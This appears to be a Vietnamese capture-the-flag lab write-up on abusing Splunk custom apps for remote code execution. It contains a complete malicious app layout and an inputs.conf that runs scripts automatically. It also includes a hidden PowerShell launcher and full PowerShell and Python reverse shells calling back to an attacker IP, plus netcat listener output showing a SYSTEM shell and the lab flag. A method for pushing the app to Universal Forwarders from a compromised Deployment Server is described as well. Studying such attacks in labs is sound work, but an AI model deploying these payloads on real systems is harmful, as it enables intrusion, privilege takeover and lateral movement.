


# Attacking Splunk

## 1. Ý tưởng chính

Sau khi có quyền truy cập Splunk, có thể abuse **built-in functionality** để đạt RCE bằng cách tạo custom Splunk application chứa script:

- Python
- PowerShell
- Batch
- Bash

Attack flow:

```
Splunk Access
    ↓
Create malicious custom app
    ↓
inputs.conf
    ↓
Splunk tự động chạy script
    ↓
PowerShell reverse shell
    ↓
NT AUTHORITY\SYSTEM hoặc root
```

## 2. Cấu trúc Custom Splunk Application

Tạo cấu trúc:

```
splunk_shell/
├── bin/
└── default/
```

Trong đó: 

- `bin/`: chứa các script muốn Splunk thực thi.
- `default/`: chứa file cấu hình `inputs.conf`.

Ví dụ đầy đủ:

```
splunk_shell/
├── bin/
│   ├── rev.py       ← Linux
│   ├── run.bat      ← Windows, gọi PowerShell
│   └── run.ps1      ← Windows, reverse shell
└── default/
    └── inputs.conf  ← bảo Splunk chạy script
```

## 3. `inputs.conf`

`inputs.conf` xác định script nào sẽ được Splunk chạy và điều kiện chạy.

Ví dụ:

```ini
[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Ý nghĩa: 

| Setting              | Ý nghĩa                  |
| -------------------- | ------------------------ |
| `disabled = 0`       | Enable script            |
| `interval = 10`      | Chạy mỗi 10 giây         |
| `sourcetype = shell` | Sourcetype của input     |
| `[script://...]`     | Chỉ định script cần chạy |

> Lưu ý: `interval` được tính bằng giây và input chỉ chạy khi setting này được cấu hình.

## 4. Windows – PowerShell

`run.bat` được dùng để gọi PowerShell script:

```bat
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
```

PowerShell script `run.ps1` chứa reverse shell.

```ps1
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.15',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Trong ví dụ, reverse shell kết nối về:

`10.10.14.15:443`

## 5. Đóng gói Application

Sau khi tạo các file, đóng gói thành `.tar.gz` hoặc `.spl`:

```bash
reDrose18@htb[/htb]$ tar -cvzf updater.tar.gz splunk_shell/

splunk_shell/
splunk_shell/bin/
splunk_shell/bin/rev.py
splunk_shell/bin/run.bat
splunk_shell/bin/run.ps1
splunk_shell/default/
splunk_shell/default/inputs.conf
```

## 6. Upload vào Splunk

Trong Splunk:

```
Apps
  ↓
Install app from file
  ↓
Upload custom application
```

URL lab:

`https://10.129.201.50:8000/en-US/manager/search/apps/local`



Trước khi upload, khởi động listener: 

```
sudo nc -lnvp 443
```

Sau đó upload `updater.tar.gz`.



Do application được chuyển sang trạng thái: `Enabled`

nên script sẽ được Splunk thực thi.

```bash
reDrose18@htb[/htb]$ sudo nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.201.50] 53145


PS C:\Windows\system32> whoami

nt authority\system


PS C:\Windows\system32> hostname

APP03


PS C:\Windows\system32>
```

## 7. Nếu target là Linux

Quy trình tương tự, nhưng chỉnh `rev.py` trước khi đóng gói.

Python reverse shell trong bài:

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

Sau đó:

```
Edit rev.py
    ↓
Create tarball
    ↓
Upload custom Splunk app
    ↓
Splunk executes Python
    ↓
Reverse shell
```

Các bước còn lại giống Windows.

## 8. Deployment Server – Impact lớn hơn

Một điểm rất quan trọng trong bài:

Nếu máy Splunk bị compromise là **Deployment Server**, có khả năng thực hiện RCE trên các host có **Universal Forwarder**.

Application cần được đặt vào:

`$SPLUNK_HOME/etc/deployment-apps`

Sau đó có thể push application tới các host khác.

**Windows-heavy environment**

Universal Forwarder không được cài Python giống Splunk Server, vì vậy cần sử dụng:

`PowerShell reverse shell`

thay vì Python.

Attack path:

```
Compromise Splunk Deployment Server
             ↓
$SPLUNK_HOME/etc/deployment-apps
             ↓
Push malicious application
             ↓
Universal Forwarders
             ↓
Execute script
             ↓
RCE trên các host khác
```

---

Tạo các file như trên (nhớ sửa host nhận shell và port (nếu cần))

Truy cập `https://10.129.201.50:8000/en-GB/manager/search/apps/local`

Chọn `Install app from file`

Mở port listen 

```bash 
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ sudo nc -lnvp 4444
[sudo] password for duongnt185: 
Listening on 0.0.0.0 4444
```

Tải lên file `updater.tar.gz`

Sẽ nhận được reverse shell 

```bash
┌──(duongnt185㉿WDUONGNT185CSOC)-[~/Desktop]
└─$ sudo nc -lnvp 4444
[sudo] password for duongnt185: 
Listening on 0.0.0.0 4444
Connection received on 10.129.201.50 50548
whoami 
nt authority\system
PS C:\Windows\system32> cd c:\loot
PS C:\loot> dir 


    Directory: C:\loot


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        9/29/2021   6:16 PM             16 flag.txt                                                              


PS C:\loot> type flag.txt 
l00k_ma_no_AutH!
PS C:\loot> 

```

